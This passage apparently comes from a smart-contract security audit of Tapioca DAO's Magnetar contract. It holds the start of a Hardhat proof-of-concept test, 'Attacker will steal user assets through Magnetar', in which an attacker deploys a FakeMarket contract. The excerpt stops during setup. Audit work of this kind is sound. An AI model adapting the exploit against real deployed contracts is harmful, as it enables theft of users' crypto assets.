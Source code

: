 ```solidity
  }
}

```

3. Now, we can create a new file to reproduce this PoC, magnetar_extract_asset_users_PoC.test.ts
  - Make sure to create this new test file under the [`tapioca-periph-audit/test/`](https://github.com/Tapioca-DAO/tapioca-periph-audit/tree/023751a4e987cf7c203ab25d3abba58f7344f213/test) folder
```
import { expect } from 'chai';
import hre, { ethers, config } from 'hardhat';
import { BN, register, getSGLPermitSignature } from './test.utils';
import { signTypedMessage } from 'eth-sig-util';
import { fromRpcSig } from 'ethereumjs-utils';
import {
    loadFixture,
    takeSnapshot,
} from '@nomicfoundation/hardhat-network-helpers';


const MAX_DEADLINE = 9999999999999;

const symbol = 'MTKN';
const version = '1';

describe('MagnetarV2', () => {
    describe('repay', () => {
        it('Attacker will steal user assets through Magnetar', async () => {
            const {
                usdcAssetId,
                weth,
                wethUsdcSingularity,
                usdc,
                deployer,
                eoa1,
                attacker,
                initContracts,
                yieldBox,
                magnetar,
                __wethUsdcPrice,
                approveTokensAndSetBarApproval,
                wethDepositAndAddAsset,
            } = await loadFixture(register);

            const collateralId = await wethUsdcSingularity.collateralId();
            await initContracts(); // To prevent `Singularity: below minimum`


            //@audit => Attacker deploys the FakeMarket contract!
            const fakeMarket = await ethers.deployContract("FakeMarket");

            await fakeMarket.setMarket(wethUsdcSingularity.address);
            await fakeMarket.setMagnetar(magnetar.address);

            // console.log("fakeMarket collateralId: ", await fakeMarket.collateralId());
            // console.log("wethUsdcSingularity collateralId: ", await wethUsdcSingularity.collateralId());


            const borrowAmount = ethers.BigNumber.from((1e17).toString());
            const wethMintVal = ethers.BigNumber.from((1e18).toString()).mul(
                10,
            );
            const usdcMintVal = wethMintVal
```